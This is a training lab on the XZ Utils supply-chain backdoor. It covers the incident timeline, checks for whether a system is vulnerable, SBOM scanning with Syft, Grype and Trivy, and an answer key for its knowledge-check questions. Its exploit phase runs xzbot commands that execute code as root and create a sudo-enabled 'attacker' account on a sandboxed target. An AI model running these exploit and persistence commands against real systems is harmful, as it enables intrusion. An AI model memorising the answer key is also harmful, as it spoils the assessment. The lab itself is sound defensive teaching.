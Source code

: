 # XZ Utils - A Case Study on Supply Chain Trust

This lab draws on the XZ Utils supply chain compromise referenced in this <a href="https://www.cisa.gov/news-events/alerts/2024/03/29/reported-supply-chain-compromise-affecting-xz-utils-data-compression-library-cve-2024-3094" target="_blank">CISA alert</a> from April of 2024. The XZ Utils case study represents an incident where a supply chain trust issue led to the inclusion of a backdoor vulnerability in the XZ Utils open source software package. What's most interesting is how the vulnerability was introduced and how it was discovered (almost completely by accident). Had the vulnerability not been discovered, any system that patched its OpenSSH service with the vulnerable version of XZ Utils could have been compromised. The lab will cover the backstory to this incident and walk you through an example vulnerability test and exploitation of the backdoor.

One of the ways personnel can review software packages and libraries for vulnerabilities before installation is through the use of Software Bills of Materials (SBOMs). Additional guidance on the use and generation of SBOMs can be viewed at <a href="https://www.cisa.gov/sbom" target="_blank">CISA's SBOM information page<a>.

Further information and recommendations on using secure software can be found in the <a href="https://www.cisa.gov/sites/default/files/2023-01/ESF_SECURING_THE_SOFTWARE_SUPPLY_CHAIN_CUSTOMER.PDF" target="_blank">Securing the Software Supply Chain Guide</a>

 - This lab is expected to take 30 minutes

*Please consider filling out the lab feedback survey at the bottom of your screen. The survey is available to you at any time while conducting the lab.*

**Caution!** You must complete _all_ phases of the lab to receive your completion certificate.

## Learning Objectives

 - Understand the XZ Utils backdoor vulnerability
 - Perform exploitation of the XZ Utils backdoor vulnerability
 - Understand Software Bill of Materials
 - Analyze SBOM details for vulnerability information

## Learner Expectations

 - Learners should be comfortable with command-line operations and Secure Shell connections

## FOCAL and NICE Framework Mappings

This lab maps with <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a> area 2 (Vulnerability Management) by analyzing and removing vulnerabilities and area 4 (Cyber Supply Chain Risk Management) by validating open source software before use.

**NICE Work Role**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">Exploitation Analysis, Software Security Assessment, Vulnerability Analysis</a>

**NICE Tasks**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1118</a>: Identify vulnerabilities
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1359</a>: Perform penetration testing
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1624</a>: Conduct vulnerability analysis of software patches and updates
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1690</a>: Identify exploitable technical or operational vulnerabilities


<!-- cut -->

# Scenario

The lab begins by walking through the timeline and backstory of the XZ Utils case study. Then you will perform hands-on penetration testing and exploitation of the vulnerability in a sandbox environment.

The lab environment consists of three systems:
 - A Kali Linux system that will serve as the "attacker"
 - An unaffected or safe system
 - A vulnerable system that includes the XZ Utils vulnerability
 
You will test each system to identify which is vulnerable based on interactions with the OpenSSH service and then demonstrate an exploit of the vulnerability. The lab will also review the concept of Software Bill of Materials (SBOM). Then the lab will demonstrate how tools like Grype and Trivy can identify vulnerable libraries before using them in software.

![Network diagram for the XZ Utils lab showing Kali, vulnerable, and unaffected system](./img/network-diagram.png)

## System Tools and Credentials

| system | OS type/link |  username | password |
|--------|---------|-----------|----------|
| Unaffected System | Ubuntu |user | tartans|
| Vulnerable System | Ubuntu |user | tartans|
| Kali | Kali Linux | user | tartans |

<!-- cut -->

## XZ Utils - Case Study Details 

The following section will outline, in detail, the events that led to the inclusion and discovery of the XZ Utils vulnerability. If you are already familiar with the story, you may skip ahead to Phase 1 of the lab. This initial section exploring the XZ Utils backdoor vulnerability is a 5-minute read.

<details> 
<summary> 
<h3>XZ Utils Vulnerability Backstory</h3> 
</summary> 
<p> 

#### What is XZ Utils? 

From XZ Util's own project page, "XZ Utils provide a general-purpose data-compression library plus command-line tools" `[1]`. Compared to other compression libraries and tools, such as gzip, XZ Utils can provide up to 30% more compression, albeit at the mild expense of longer compression times `[1,2]`. 

XZ Utils and the former LZMA2 Utils libraries are often part of other services that require data compression. One of which is the OpenSSH service that provides remote command-line access to systems and is often used by administrators. Estimates are that up to 70% of SSH servers are running some form or version of OpenSSH `[3]`. Keep this statistic in mind as we review the case. 

#### An Exercise of Social Engineering and Extreme Patience 

One of the most remarkable aspects of this case is the way the actor was able to gain the XZ Utils project maintainer's trust. Here is a rough timeline of the over 2 years of events that took place leading up to the inclusion of the vulnerability`[3]`: 

 - **October, 2021 - February, 2022**: User Jia Tin sends patches to the current XZ Utils maintainer, Lasse Colin, who integrates Tin's patches into a commit in February, 2022. 
 - **April, 2022 - June, 2022**: Several sockpuppet accounts (accounts that had no previous history or Internet presence up to this point and may have been operated by Tin) begin messaging Colin complaining of slow update times and pressuring him to appoint a second maintainer; a role that Tin has poised themselves to take with their previous patch submissions. 
 - **July, 2022 - December, 2022**: Lasse makes Tin an organization member of the XZ Utils GitHub project, adding him to email lists, and granting more access than Tin had previously. 
 - **January, 2023 - January, 2024**: Jia Tin takes over more and more responsibility for the project's maintenance, becomes a full-fledged maintainer and makes a few innocuous changes to the code that will serve the attack to come. 
 - **February, 2024**: Tin merges hidden backdoor binary code into the test input files included in the XZ Utils v5.6.0 unstable release. By the end of the month, errors are reported, and this likely led Jia Tin to accelerate the timeline of their plans. Some of the suggested "fixes" to the errors would prevent the backdoor in the future by unlinking the liblzma library from the libsystemd daemon - one that is necessary for the backdoor to work. 
 - **March, 2024**: Jia Tin releases XZ Utils v5.6.1, reporting to have fixed the previous errors, but this is a deception. The update includes a new backdoor in the test files that is less noisy to avoid detection. Tin hopes that the proposed solution of unlinking the libzma libraries will no longer be seen as necessary. 
 - **March 28, 2024**: Andres Freund discovers the bug and reports his findings to Debian who proactively rolls back XZ Utils v5.6.1 to v5.4.5. Meanwhile, other Linux distributions, such as Arch Linux and RedHat, announce the backdoor and advise users to downgrade the XZ Utils package if they have one of the vulnerable versions (5.6.0 or 5.6.1). 

#### Clever Concealment 

Part of the reason that the backdoor went relatively unnoticed to others was because the backdoor was added within the test files included with the 5.6.0 and 5.6.1 releases. Tin's own comments state, “This directory contains bunch of files to test handling of .xz, .lzma (LZMA_Alone), and .lz (lzip) files in decoder implementations. Many of the files have been created by hand with a hex editor, thus there is no better ‘source code’ than the files themselves,” `[3]`. The hope was that these test files would not be scrutinized to the same degree as the actual source code files. In addition, the malicious test files were only included in the tarball download files, and not directly on the GitHub project files list, further obfuscating their existence. Upon decompression of the package during the build process, the backdoor was added to the XZ Utils and liblmza libraries. 

An infographic created by Thomas Roccia is included below: 

![Infographic of XZ Utils supply chain compromise](./img/xz-infographic.jpg) 

*https://x.com/fr0gger_/status/1774342248437813525/photo/1* 

#### Discovery 

The backdoor's discovery by Andres Freund was unintentional in nature. Andres, a Postgres developer for Microsoft, discovered that creation of SSH logins were generating several Valgrind errors and that connections took slightly longer than usual using more CPU than normal. Valgrind is a tool used to detect memory management bugs in Linux programs, and Andres was so used to his systems that he noticed the fractionally longer login times for his SSH logins to connect. The Valgrind output seemed to point to liblzma and to xz utils in large. He then discovered the obfuscated code that is run by the liblzma and XZ Utils process during his SSH login session `[4]`. 

Additionally, in the case where the OpenSSH service is run by the systemd daemon at boot, the OpenSSH service is run in the context of the root user, which in Linux, is tantamount to the highest privileged user on the system. Anyone who would exploit this backdoor would then also be granted root-level access to the underlying system. 

After being reported the vulnerability was immediately given a severity score of 10, the highest a vulnerability can have, and the designation of <a href="https://nvd.nist.gov/vuln/detail/cve-2024-3094" target="_blank">CVE-2024-3094</a>. 

#### Lessons Learned 

Luckily, there are a handful of mitigating factors that prevented this backdoor vulnerability from becoming a larger issue. 

 - 1: The backdoor was caught relatively early, and many had likely not updated or upgraded their current version of XZ Utils to one of the compromised versions. Unless operators were hyper-diligent about updating their packages, the pool of vulnerable systems would have been small at first. However, remember that up to 70% of systems with an SSH login service use a version of OpenSSH, so the potential for harm was great on a long enough timescale. 
 - 2: The backdoor relied on a specific public/private key pair to connect. This means that only the holder of the required private key would have been able to leverage the backdoor. At the time of discovery, the likelihood that the actor, Jai Ti, was going to personally target systems of interest would have been very low. However, it would have been possible for this actor to sell or offer this private key to those who would see the backdoor used for malicious intent. 
 - 3: Due to the possibly rushed execution of the attack to avoid detection, the implementation of the backdoor tended to be buggy and may not have worked on every system that leveraged XZ Utils and the liblzma libraries. Andres alludes to crashes caused by the backdoor in version 5.6.0, meaning that those who did not update to v5.6.1 had a lower chance of being exploited in the wild. 

So, what did we learn from this incident? Should we trust open source software? Overall, we likely can, as the entire purpose of open source is for the community to review and vet software to find and correct errors, bugs, and vulnerabilities. While this backdoor vulnerability had the potential to cause massive harm, it was caught relatively quickly thanks to the diligence of the larger IT and cybersecurity communities. However, this example demonstrates how the implied trust behind well-known and well-used open source software could be used for malicious purposes. 

</p> 
</details> 

## Phase 1: Test and Exploit the XZ Utils Vulnerability 

In this phase of the lab, you will test for the presence of the vulnerability, just as the discoverer did, and then perform the exploitation of the XZ Utils vulnerability. 

<details>
<summary>
<h3>Test for the Presence of the XZ Utils Vulnerability</h3>
</summary>
<p>

First, we'll walk through how to know if a system could be affected by the backdoor. We are looking for four key items:

 - The system is using `OpenSSH` for its SSH service
 - OpenSSH includes the `liblzma` library as a dependency
 - OpenSSH is `executed by systemd` at startup
 - The version of XZ Utils is either `5.6.0` or `5.6.1`

1. Open the `Unaffected-System` console and login with the credentials `user|tartans`.

2. (**Unaffected-System**) To check whether the system is running SSH, and more specifically OpenSSH, run the following command:

```
sshd -V
```

![Terminal output of sshd -V showing OpenSSH version](./img/s08-image1.png)

We can see from the output that our system is indeed using OpenSSH.

3. (**Unaffected-System**) To check whether OpenSSH includes liblzma as a library dependency, run the following command:

```
ldd $(which sshd)
```

![Terminal output of ldd $(which sshd) showing liblzma dependency](./img/s08-image2.png)

The output lists all the shared library dependencies and objects for the service in question. The output also clearly shows that OpenSSH is dependent on the liblzma library.

4. (**Unaffected-System**) To check whether OpenSSH is executed by systemd at startup, run the following commands in succession:

```
ps -eo pid,ppid,cmd | grep [s]shd
ps -eo pid,ppid,cmd | head
ls -l /sbin/init
```

![Process list showing sshd started by systemd](./img/s08-image3.png)

All of the relevant output will fit onto the screen. The first output prints the process id, parent process id, and command name for any running process that includes the name "sshd". We can see from this output that the parent process id for the sshd service is `1`. The second output simply lists the same information for the first 10 entries of the process list, allowing us to see that process 1 corresponds to `/sbin/init`. The third and final output highlights that /sbin/init is symlinked (another way of saying shortcut) to `/lib/systemd/systemd`. Since systemd is responsible for managing services at startup, this tells us that the sshd service is started at boot by the systemd account.

Therefore, we have proven that the first three criteria pass:

 - The system is using `OpenSSH` for its SSH service &#x2705;
 - OpenSSH includes the `liblzma` library as a dependency &#x2705;
 - OpenSSH is `executed by systemd` at startup &#x2705;

5. (**Unaffected-System**) Lastly, to tell which version of XZ Utils is currently installed, run the following command:

```
xz --version
```

![Terminal output of xz --version](./img/s08-image4.png)

We can see from the output that this system is not using one of the vulnerable xz-util version. Therefore, the final criteria for being a candidate for the backdoor is not true.

 - The version of XZ Utils is either `5.6.0` or `5.6.1` &#x274E;

6. Open the `Vulnerable-System` console and login with the credentials `user|tartans`.

7. (**Vulnerable-System**) Repeat steps 2-5 above for this system. Everything should be more less the same until you check the version of xz.

![Terminal output of xz --version showing vulnerable 5.6.1](./img/s08-image5.png)

This time we see that the system is using version 5.6.1, which is one of the vulnerable versions of XZ Utils.

8. (**Vulnerable-System**) Additionally, we can verify that the liblzma shared object that OpenSSH is using is the vulnerable version by running the following command:

```
ls -l /usr/local/lib/liblzma.so.5
```

When you ran the `ldd $(which sshd)` command you would have noticed that OpenSSH is still pointing to the liblzma.so.5 shared object, but the above output shows that this is symlinked to the vulnerable shared object of liblzma (liblzma.so.5.6.1).

![Terminal output showing symlink to vulnerable liblzma.so.5.6.1](./img/s08-image7.png)

In the next section, you will exploit the vulnerable system and test the effects.

</p>
</details>

<details>
<summary>
<h3>Exploit the XZ Utils Vulnerability</h3>
</summary>
<p>

In this section you will perform the exploitation of the XZ Utils backdoor using a proof-of-concept tool named <a href="https://github.com/amlweems/xzbot?tab=readme-ov-file#backdoor-demo" target="_blank">xzbot</a>, which was created by GitHub user `amlweems`.

1. Open the `Kali-XZ` console and login with the credentials `user|tartans`, if not already logged in.

2. (**Kali-XZ**) Open Firefox and browse to the hosted files site at `https://skills.hub/lab/files` (`https://10.5.5.5/lab/files`).

3. (**Kali-XZ, Firefox**) Download the `xzbot` standalone executable file to the default Downloads directory.

![Browser showing xzbot file available on Skills Hub for download](./img/s08-files.png)

The vulnerable server has been preconfigured with a private key that matches the public key used by the xzbot executable. Recall that in the published backdoor the private key of the attacker was unknown, so the keys in the lab were replaced using a pre-generated key pair that will allow us to perform the exploit.

4. (**Kali-XZ, Terminal**) Open a Terminal and change directories, set the executable flag for xzbot and then view the help options with the following commands:

```
cd /home/user/Downloads/
chmod +x xzbot
./xzbot -h
```

![Terminal showing xzbot help options](./img/s08-image8.png)

Based on the help options, we need to supply the SSH server IP and port, a command, and a seed value. For the lab we can ignore the seed value option as the default seed value of 0 was already used to generate the new key pair. This leaves just the IP, port, and command to run.

5. (**Kali-XZ, Terminal**) Exploit the OpenSSH server with the following command, where the `id` command will output the context in which the command was executed to the file `/home/user/id` on the vulnerable system:

```
./xzbot -addr 10.5.5.250:22 -cmd "id > /home/user/id"
```

You should see the following output.

![Terminal showing xzbot exploit command execution attempt](./img/s08-image9.png)

Even though the output says the SSH handshake failed, we can verify that the command was run by looking on the vulnerable system.

6. (**Vulnerable-System**) Switch to the **Vulnerable-System** console and view the contents of the `id` file you just created with the following command:

```
cat /home/user/id
```

![Terminal output of cat /home/user/id](./img/s08-image10.png)

The output shows that when we ran `id` through the xzbot backdoor connection, we were running as the root user. So, what could we do with this level of access as a malicious actor?

7. (**Kali-XZ, Terminal**) Return to the **Kali-XZ** console and run the following commands in succession:

```
./xzbot -addr 10.5.5.250:22 -cmd "useradd -m -s /bin/bash attacker"
./xzbot -addr 10.5.5.250:22 -cmd "echo 'attacker:tartans' | chpasswd"
./xzbot -addr 10.5.5.250:22 -cmd "gpasswd -a attacker sudo"
```

These commands will appear to run silently to you, but they will perform consequential tasks on the target system.

 - The first command creates a new user named `attacker`, creates a home directory for it, and then sets the user's default shell to bash
 - The second command sets the `attacker` password to `tartans`
 - The third command adds the `attacker` user to the sudoers group

8. (**Kali-XZ, Terminal**) Login to the vulnerable system using the account you just created and a password of "tartans" (enter "yes" when asked if you are sure you want to connect):

```
ssh attacker@10.5.5.250
```

9. (**Kali-XZ, Terminal, SSH Session to Vulnerable-System**) To validate that you are indeed a sudoer for the system, run the following command with the sudo password of `tartans` and the view the contents of the flag file in the root directory:

```
sudo cat /root/token
```

**Knowledge Check Question 1:** *What is the token string found in the root directory once the vulnerable system has been successfully exploited?*

Note that this directory was protected against the standard 'user' account initially so that you could not view it until you had a sudoer account at your disposal.

10. (**Kali-XZ, Terminal, SSH Session to Vulnerable-System**) Once you have the token file contents you may end the SSH session to the Vulnerable-System with the following command:

```
exit
```


You have just circumvented the standard protections for this system by creating a new privileged user account by using the backdoor in liblzma. Now that an account is created, an attacker could go about making further changes to lock out other users, erase logs to cover their tracks, and set up persistence or pivot to other systems.

#### Grading Check

(**Kali-XZ, Firefox**) To check your work, browse to the grading page at `https://skills.hub/lab/tasks` or `(https://10.5.5.5/lab/tasks)` from the Kali system. Click the `Submit/Re-Grade Tasks` button to trigger the grading checks. Refresh the results after a few moments to see your results.

![Grading check page showing exploit tasks passed](./img/s08-image13.png)

Grading Check 1: Successfully added the attacker user to the vulnerable system and added the attacker to the sudoers group.
 - New user `attacker` was added to the Vulnerable-System
 - The `attacker` user is part of the sudoers group

`Copy the token or flag strings to the corresponding question submission field to receive credit.`

### Optional Validation

1. (**Kali-XZ, Terminal**) In order to view SSH connections times and replicate what the researcher observed, you can run the following command against the Vulnerable-System:

```
(time sshpass -p 'tartans' ssh -o StrictHostKeyChecking=no user@10.5.5.250 "pidstat -C sshd 1 3") 2>&1 | grep real
```

2. (**Unaffected-System**) For the Unaffected-System you will first have to run `ip addr` locally to determine the system's IP address.

![Terminal output of ip addr showing system IP](./img/s08-image11.png)

3. (**Kali-XZ, Terminal**) Then use this IP address in the same command as above, replacing the `.250` with the correct final octet of the Unaffected-System's Ip address.

You should notice, even on repeated tests, that the Vulnerable-System always connects more slowly than the Unaffected-System.

![Terminal output comparing SSH connection times](./img/s08-image12.png)

It's quite impressive that the researcher was able to notice this small difference simply by "feel", which caused him to dig deeper and led to the discovery of the backdoor.

</p>
</details>

## Phase 2: Reviewing SBOMs for Vulnerable Packages

<details>
<summary>
<h3>Investigate the XZ Utils Package</h3>
</summary>
<p>

For this phase of the lab you will be generating and reviewing a few sample SBOMs, including one taken from the vulnerable systems.

| &#128270; Software Bill of Materials (SBOM) |
|---|
|_As stated previously, SBOMs are Software Bills of Materials. SBOMs list the various libraries or even applications for a given project, package, or file. SBOMS can even be created from the contents of a system's filesystem. SBOMs are useful for creating an inventory of the various software libraries that are included in a package or project, or the various libraries and programs in a certain directory, compressed package, or other file. SBOM data can also be used to scan for known vulnerabilities attached to the specific versions of libraries, applications, or programs within the SBOM inventory list. These results can be valuable when evaluating open source software and allows personnel to correct vulnerable items before the software is used._ |

| &#128736; Syft |
|---|
|_Syft is an open source command-line interface tool used for creating SBOMs. Syft was used in this lab due to its simplicity. Syft gathers information about a target and performs additional metadata gathering when run online._ |

| &#128736; Grype |
|---|
|_Grype is an open source command-line interface tool used to scan SBOM's for known vulnerabilities. Grype leverages a vulnerability database but can be run offline as long as the database was stored locally._ |

1. (**Kali-XZ**) Open Firefox (if not already open) and browse to the hosted files site at `https://skills.hub/lab/files` (`https://10.5.5.5/lab/files`).

2. (**Kali-XZ, Firefox** Download the following files:
 - juiceshop-sbom.json: A CylconeDX formatted SBOM created from the OWASP Juice Shop site (retrieved from <a href="https://github.com/CycloneDX" target="_blank">CylconeDX</a>)
 - xz.json: An SPDX formatted SBOM based on the Vulnerable-System's xz-5.6.1 package
 - xz-5.6.1.tar.gz: The original XZ-Utils tarball including the vulnerable version of XZ Utils

![Browser showing hosted files page on Skills Hub](./img/s08-files.png)

3. (**Kali-XZ, Terminal**) Change working directories to the Downloads directory with the following commands:

```
cd /home/user/Downloads
```

4. (**Kali-XZ, Terminal**) First, you will create an SBOM of the XZ Utils tarball using `Syft` with the following command (you can ignore any warnings about not being able to fetch the latest version, as the tool is running offline):

```
syft -o spdx xz-5.6.1.tar.gz > my-xz.json
```

![Terminal output of syft creating SBOM file](./img/s08-image16.png)

Syft can view the contents of the tarball file and gather the list of libraries and packages within. The `-o` option allows you to specify the output format; SPDX in this case.

5. (**Kali-XZ, Terminal**) You can view the contents of the SBOM with `cat my-xz.json` or by viewing it directly within the OS GUI with a text editor, such as VS Code or VIM.

An important item of note is that when Syft runs in an offline fashion it might not be able to grab all the associated metadata with certain library and package files.

6. (**Kali-XZ, Terminal**) Compare the SBOM that you created with the SBOM that was pre-generated for you with the following command:

```
diff -y my-xz.json xz.json
```

![Terminal output comparing SBOM files with diff](./img/s08-image17.png)

As you scroll through the differences, you'll see that there are some sections and additional information available in the xz.json SBOM that was taken while Syft was online.

Let's check the pre-generated SBOM for any vulnerabilities flagged in the xz-5.6.1.tar.gz package using Grype.

7. (**Kali-XZ, Terminal**) Review the SBOM for any vulnerabilities associated with known CVE's with the following command (Grype will also complain about not being able to check for updates due to being run offline, but this is normal):

```
grype xz.json
```

![Terminal output of grype showing CVEs for xz-utils](./img/s08-image18.png)

You'll see that Grype flags the vulnerable version of XZ Utils right away, as well as lists the exact CVE and the version in which the CVE was fixed or resolved.

**Knowledge Check Question 2:** *What is the CVE associated with the "Unknown" severity vulnerability in the Grype output?*

Using tools like Grype to review packages before installation is critical to vulnerability management, but it also allows you to resolve the vulnerable package with a known safe version. Review of SBOM's and packages is paramount to maintaining security and reducing risk when using open source packages.

</p>
</details>

<details>
<summary>
<h3>Reviewing More Complex SBOMs with Trivy</h3>
</summary>
<p>

In this final section of the lab, you will review a more involved SBOM based on the OWASP vulnerable Juice Shop site, which is used for practicing penetration testing techniques. The site is intentionally rife with vulnerabilities, so Trivy should find many potential issues with the package.

| &#128736; Trivy |
|---|
|_Trivy is another open source command-line interface tool for performing security scanning of SBOMs. Trivy produces vulnerability information, including CVE numbers, in a table format that is easy to read and can even filter the results by severity._|

0. (**Kali-XZ, Terminal**) Because of the way Trivy runs in this offline sandboxed environment, it cannot perform automatic database updates. The trivy.db file includes metadata that compares the current date to the date on which the .db file was pulled. 

In order to trick Trivy into not running the database checks, the system clock was modified at the start of the lab to set the date back to when the database was last updated (May 6th, 2025). Check the system clock and make sure this is still the case.

If you need to set the date back yourself, you can enter the following command:

```
sudo date -s "Tue May 6 02:30:00 PM EDT 2025"
```

Since this is the last step we are performing, the date change should not affect the local system.

**Note: If at any time Trivy behaves as if it cannot read from its local database again, you can replace the cached files with the following commands:**

```
cp /home/user/metadata.json /home/user/.cache/trivy/db/
cp /home/user/trivy.db /home/user/.cache/trivy/db/
```

1. (**Kali-XZ, Terminal**) Review the Trivy output for the Juice Shop SBOM with the following command:

```
trivy sbom juiceshop-sbom.json
```

The `sbom` flag tells Trivy that we are reviewing an SBOM file, which is the `juiceshop-sbom.json` file.

The output will display a table of the libraries that have known CVE's attached and whether or not the vulnerability is still active or it has been fixed.

![Terminal output of trivy scan showing known CVEs](./img/s08-image15.png)

2. Use the table's information and Internet research to answer the following questions.

**Knowledge Check Question 3:** *How many unique libraries (not unique CVE's) are identified as having at least one CVE with a `HIGH` severity level?*

Hint: You can add the `--severity HIGH` option to the previous Trivy command to help with Knowledge Check Question 3.

**Knowledge Check Question 4:** *How many 'CRITICAL' severity CVE's are still affected in the Juice Shop package based on the SBOM and Trivy output?*

Hint: You can add the `--severity CRITICAL` option to the previous Trivy command to help with Knowledge Check Question 4.

You have now used multiple tools to gather vulnerability information from SBOMs made from various packages and libraries. There is no single tool to rule them all when it comes to SBOM review. While Grype flagged the XZ Utils vulnerability, Trivy does not in this instance. It is important to leverage multiple tools, whenever possible, to ensure you have the full picture when reviewing SBOM details.

</p>
</details>

<details>
<summary>
<h3>Lab Wrap-up</h3>
</summary>
<p>

### Conclusion

By completing this lab, you were able to review and demonstrate an exploit against the XZ Utils backdoor vulnerability. In addition, you learned about SBOMs and how they can be used to review open source software for potential vulnerabilities before use.

To recap:
 - You reviewed and compared a pair of systems to determine which was vulnerable to the XZ Utils backdoor vulnerability
 - You exploited the XZ Utils backdoor vulnerability and performed follow-on actions to gain persistent sudoer access as a new user
 - You created an SBOM from the vulnerable XZ Utils source code package
 - You analyzed the output of security and vulnerability scanning tools against SBOMs to determine specific vulnerability information

Skills exercised:
 - S0504: Skill in identifying vulnerabilities
 - S0543: Skill in scanning for vulnerabilities
 - S0544: Skill in recognizing vulnerabilities

### Answer Key

**Knowledge Check Question 1**: What is the token string found in the root directory once the vulnerable system has been successfully exploited?
 - *This answer is randomized for each lab instance*
 
**Knowledge Check Question 2**: What is the CVE associated with the "Unknown" severity vulnerability in the Grype output?
 - *CVE-2024-47611*

![Screen capture of Knowledge Check 2 correct answer](./img/kc2.png)  
  
**Knowledge Check Question 3**: How many unique _libraries_ (not unique CVE's) are identified as having at least one CVE with a `HIGH` severity level based on the Juice Shop SBOM?
 - *16*

![Screen capture of Knowledge Check 3 correct answer](./img/kc3.png)
  
**Knowledge Check Question 4**: How many 'CRITICAL' severity _CVE's/vulnerabilities_ (not unique libraries) are ALSO still marked as _affected_ based on the Juice Shop SBOM?
 - *5*

![Screen capture of Knowledge Check 4 correct answer](./img/kc4.png)
  
### References
 - `[1]`<a href="https://github.com/tukaani-project/xz" target="_blank">XZ Utils GitHub Project page</a>
 - `[2]` <a href="https://en.wikipedia.org/wiki/XZ_Utils" target="_blank">Wikipedia</a>
 - `[3]` <a href="https://research.swtch.com/xz-timeline" target="_blank">Timeline of the xz open source attack</a>
 - `[4]` <a href="https://www.openwall.com/lists/oss-security/2024/03/29/4" target="_blank">Andres Freund's Report to Openwall</a>
 - <a href="https://www.cisa.gov/news-events/alerts/2024/03/29/reported-supply-chain-compromise-affecting-XZ Utils-data-compression-library-cve-2024-3094" target="_blank">CISA Alert on XZ Utils</a>
 - <a href="https://www.cisa.gov/sbom" target="_blank">CISA SBOM information page<a>
 - <a href="https://www.cisa.gov/sites/default/files/2023-01/ESF_SECURING_THE_SOFTWARE_SUPPLY_CHAIN_CUSTOMER.PDF" target="_blank">CISA Securing the Software Supply Chain Guide</a>
 - <a href="https://github.com/anchore/grype" target="_blank">Grype</a>
 - <a href="https://github.com/anchore/syft" target="_blank">Syft</a>
 - <a href="https://trivy.dev/latest/" target="_blank">Trivy</a>
 - <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a>
 - <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">NICE Framework</a>

</p>
</details>

